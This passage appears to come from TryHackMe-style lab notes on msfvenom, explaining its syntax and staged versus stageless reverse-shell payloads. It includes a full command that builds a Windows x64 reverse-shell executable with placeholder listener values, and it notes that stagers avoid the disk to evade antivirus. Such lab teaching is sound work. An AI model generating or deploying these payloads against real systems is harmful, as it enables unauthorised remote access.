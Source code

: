 The standard syntax for msfvenom is as follows:

```
msfvenom -p <PAYLOAD> <OPTIONS>
```

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

![img](assets/JkWeFLq.png)

Here we are using a payload and four options:



- **-f** <format>

- - Specifies the output format. In this case that is an executable (exe)

- **-o** <file>

- - The output location and filename for the generated payload.

- **LHOST=**<IP>

- - Specifies the IP to connect back to. When using TryHackMe, this will be your [tun0 IP address](http://10.10.10.10). If you cannot load the link then you are not [connected to the VPN](https://tryhackme.com/room/welcome).

- **LPORT=**<port>

- - The port on the local machine to connect back to. This can be anything  between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

------

*Staged vs Stageless*

Before we go any further, there are another two concepts which must be introduced: ***staged*** reverse shell payloads and ***stageless*** reverse shell payloads. 

- ***Staged*** payloads are sent in two parts. The first part is called the *stager*. This is a piece of code which is executed directly on the server  itself. It connects back to a waiting listener, but doesn't actually  contain any reverse shell code by itself. Instead it connects to the  listener and uses the connection to load the real payload, executing it  directly and preventing it from touching the disk where it could be  caught by traditional anti-virus solutions. Thus the payload is split  into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads  require a special listener -- usually the Metasploit multi/handler,  which will be covered in the next task.  
- ***Stageless*** payloads are more common -- these are what we've been using up until  now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting  listener.
